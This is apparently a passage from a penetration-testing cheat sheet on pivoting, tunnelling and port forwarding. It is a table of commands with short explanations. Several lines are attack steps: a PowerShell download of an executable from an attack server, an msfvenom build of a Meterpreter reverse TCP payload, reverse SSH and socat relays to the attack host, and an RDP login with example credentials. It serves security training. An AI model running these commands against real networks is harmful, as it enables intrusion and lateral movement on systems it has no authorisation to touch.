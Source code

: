 | `Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"` | PowerShell downloads `backupscript.exe` from your HTTP server and saves it locally.                                                                                                                   |
| `ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:80 ubuntu@<IPaddressofTarget> -vN` | Sets up a reverse SSH tunnel so remote port 8080 forwards to the target’s port 80.                                                                                                                     |
| `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IPaddressofAttackHost> LPORT=8080 -f elf -o backupjob` | Builds a Linux x64 Meterpreter reverse TCP payload calling back on port 8080, output as `backupjob`.                                                                                                  |
| `msf6 > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23` | Executes a Metasploit ping‑sweep against the 172.16.5.0/23 subnet.                                                                                                                                    |
| `for i in {1..254}; do ping -c 1 172.16.5.$i \| grep "bytes from" & done` | Bash loop to ping every host in 172.16.5.1–254 and background successful replies.                                                                                                                      |
| `for /L %i in (1,1,254) do ping 172.16.5.%i -n 1 -w 100 \| find "Reply"` | Batch loop on Windows to ping 172.16.5.1–254 once each with a 100 ms timeout.                                                                                                                         |
| `1..254 \| %{"172.16.5.$($_): $(Test-Connection -Count 1 -ComputerName 172.16.5.$($_) -Quiet)"}` | PowerShell one‑liner to test connectivity for every host .1–.254 and print results.                                                                                                                   |
| `msf6 > use auxiliary/server/socks_proxy`                    | Selects Metasploit’s SOCKS proxy server module.                                                                                                                                                       |
| `msf6 auxiliary(server/socks_proxy) > jobs`                  | Lists currently running Metasploit jobs (e.g. your SOCKS server).                                                                                                                                     |
| *Add to `/etc/proxychains.conf`:*<br>`socks4 127.0.0.1 9050`     | Enables a SOCKS4 proxy at 127.0.0.1:9050 in Proxychains.                                                                                                                                              |
| *Add to `/etc/proxychains.conf`:*<br>`socks5 127.0.0.1 1080`     | Enables a SOCKS5 proxy at 127.0.0.1:1080 in Proxychains.                                                                                                                                              |
| `msf6 > use post/multi/manage/autoroute`                     | Loads Metasploit’s autoroute module (for pivot routing).                                                                                                                                              |
| `meterpreter > help portfwd`                                 | Shows usage for Meterpreter’s `portfwd` command.                                                                                                                                                       |
| `meterpreter > portfwd add -l 3300 -p 3389 -r <IPaddressofTarget>` | Forwards local port 3300 to the target’s RDP port 3389 within your Meterpreter session.                                                                                                                |
| `xfreerdp /v:localhost:3300 /u:victor /p:pass@123`           | RDP into localhost:3300 (must have a forward in place) with specified credentials.                                                                                                                    |
| `netstat -antp`                                              | Lists all TCP connections (`-a`), shows PIDs (`-p`), in numeric form (`-n`), and only TCP (`-t`).                                                                                                      |
| `meterpreter > portfwd add -R -l 8081 -p 1234 -L <IPaddressofAttackHost>` | Sets up a reverse port forward from the target back to your attack host on port 8081 → port 1234.                                                                                                      |
| `meterpreter > bg`                                           | Backgrounds the current Meterpreter session.                                                                                                                                                          |
| `socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofAttackHost>:80` | Listens on local port 8080, forks on each connection, then proxies to your attack host on port 80.                                                                                                    |
| `socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofTarget>:8443`   | Same as above, but proxies to the target’s port 8443.                                                                                                                                                 |
| `plink -D 9050 ubuntu@<IPaddressofTarget>`                   | PuTTY’s Plink for dynamic SOCKS5 forwarding on Windows (local port 9050).                                                                                                                             |